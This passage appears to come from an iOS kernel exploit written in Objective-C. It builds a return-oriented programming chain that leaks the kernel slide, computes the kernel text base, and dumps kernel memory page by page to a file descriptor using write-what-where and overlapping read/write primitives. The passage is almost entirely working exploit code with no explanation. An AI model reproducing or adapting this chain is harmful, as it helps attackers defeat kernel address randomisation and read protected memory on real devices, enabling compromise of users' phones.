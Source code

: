     WriteWhatWhere(PUSH, 0, SEG_VAR(kern_slide));
    
    LoadIntoR0(PUSH, SEG_VAR(tmp1));
    StoreR0(PUSH, SEG_VAR(kern_slide)+2);
    
    LoadIntoR0(PUSH, SEG_VAR(kern_slide) + 1);
    Shift2R0(PUSH);
    Shift2R0(PUSH);
    StoreR0(PUSH, SEG_VAR(tmp1));
    
    WriteWhatWhere(PUSH, 0, SEG_VAR(kern_slide));
    
    LoadIntoR0(PUSH, SEG_VAR(tmp1));
    StoreR0(PUSH, SEG_VAR(kern_slide) + 2);
    
    [dy setSlide:dy.slide+1]; // enter thumb
    RopCallFunction9Deref2(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 2, SEG_VAR(kern_slide)+4,0,SEG_VAR(testmsg),0,0,0,0,0,0,0);
    RopCallFunction9Deref2(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 2, SEG_VAR(kern_slide),0,SEG_VAR(testmsg),0,0,0,0,0,0,0);
    [dy setSlide:dy.slide-1]; // exit thumb
    
    
    LoadIntoR0(PUSH, SEG_VAR(kern_slide));
    RopAddR0(PUSH, 0x02002000);
    StoreR0(PUSH, SEG_VAR(kern_text_base));
    
    LoadIntoR0(PUSH, SEG_VAR(kern_slide) + 4);
    RopAddR0(PUSH, 0xffffff80);
    StoreR0(PUSH, SEG_VAR(kern_text_base)+4);
    
    [dy setSlide:dy.slide+1]; // enter thumb
    RopCallFunction9Deref2(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 2, SEG_VAR(kern_text_base)+4,0,SEG_VAR(testmsg),0,0,0,0,0,0,0);
    RopCallFunction9Deref2(PUSH, @"__simple_dprintf", 0, SEG_VAR(fd1), 2, SEG_VAR(kern_text_base),0,SEG_VAR(testmsg),0,0,0,0,0,0,0);
    [dy setSlide:dy.slide-1]; // exit thumb
    
#define dump_step 0
    for (int i = dump_step*0x60; i < (1+dump_step)*0x60; i++) {
        ReadWriteOverlap();
        tmptoscratch();
        LoadIntoR0(PUSH, SEG_VAR(kern_text_base));
        RopAddR0(PUSH, i*0x1000);
        StoreR0(PUSH, SEG_VAR(scratch[1024 - 0x58 + 0x18]));
        LoadIntoR0(PUSH, SEG_VAR(kern_text_base)+4);
        StoreR0(PUSH, SEG_VAR(scratch[1024 - 0x58 + 0x18 + 4]));
        WriteWhatWhere(PUSH, 4096, SEG_VAR(scratch[1024 - 0x58 + 0x10]));
        ReadWriteScratchOverlap();
        
        ReadWriteOverlapped512();
        RopCallFunction9Deref2(PUSH, @"___syscall", 1, SEG_VAR(fd3), 2, SEG_VAR(tmp_msg.desc.address), SYS_write, 0, 0, 4096, 0, 0, 0, 0, 0);
    }
    
    
    RopCallFunction9Deref1(PUSH, @"___syscall", 1, SEG_VAR(fd2), SYS_close, 0, 0, 0, 0, 0, 0, 0, 0);
    RopCallFunction9Deref1(PUSH, @"___syscall", 1, SEG_VAR(fd1), SYS_close, 0, 0, 0, 0, 0, 0, 0, 0);
    